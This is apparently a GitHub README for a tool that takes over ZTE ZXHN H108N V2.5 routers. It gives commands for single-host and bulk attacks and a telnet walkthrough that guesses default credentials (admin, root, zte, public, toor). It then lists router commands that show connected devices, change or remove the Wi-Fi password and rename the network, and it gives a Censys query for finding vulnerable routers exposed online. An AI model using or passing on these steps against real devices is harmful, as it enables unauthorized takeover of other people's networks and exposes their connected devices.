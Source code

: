 # Zata-Router-Takeover | 𓊃𓂝𓏏𓂝 𓏏𓂝𓎡𓂋𓏏𓃭
ZTE ZXHN H108N V2.5 Router Takeover Tool
### Single Host Attack: <br>
java main (Gateway IP / IP of the Portal) (ssid) (Password) <br>
ssid = Name of the Network (Wireless) <br>
Password = Password of the Network (Wireless) <br>
### Multi Host Attack: <br>
java bulk (ssid) (Password) <br>
in hosts.txt type: <br>
192.168.1.1,192.168.1.11, <br>
to Attack 192.168.1.1 and 192.168.1.11. <br>
### 2-Telnet Attack (If port 23 is open):
 First, Let’s get our Gateway IP Address. Which is often 192.168.1.1.. <br>
 Then let’s scan our IP with nmap, We’ll see that port 23 is open. <br>
 let’s establish a connection. He Asks for the Username and Password.. <br>
 We can use https://github.com/Ligeti15/ZXHN-H108N-Login .Or try these. <br>
 Usernames: admin root zte public toor <br>
 Passwords: admin root zte public toor <br>
 BOOM ! .Now we have access to the Gateway. You will see something like ZTE> <br>
 Commands: <br>
 - ip dhcp br0 status → See Devices Connected to the Router <br>
 - rt node ssid [NAME] → Change the SSID of the Wi-Fi to [NAME] <br>
 - rt node wpapsk [PASSWORD] → Change the Password of the Wi-Fi to [PASSWORD] <br>
 - rt node save → Save Changes <br>
 - rt node authmode open → Remove the Password and Open the Network <br>
 - show all / sys atsh / rtwlan rtdisp → Show Information <br>
 Also You can Discover all Options Available with these Commands: <br>
 - ? → General Commands <br>
 - rt ? → Wireless Commands <br>
 *You can Search Censys for Vulnerable Devices using this Query: (80.http.get.title%3A+ZXHN+H108N+V2.5)*
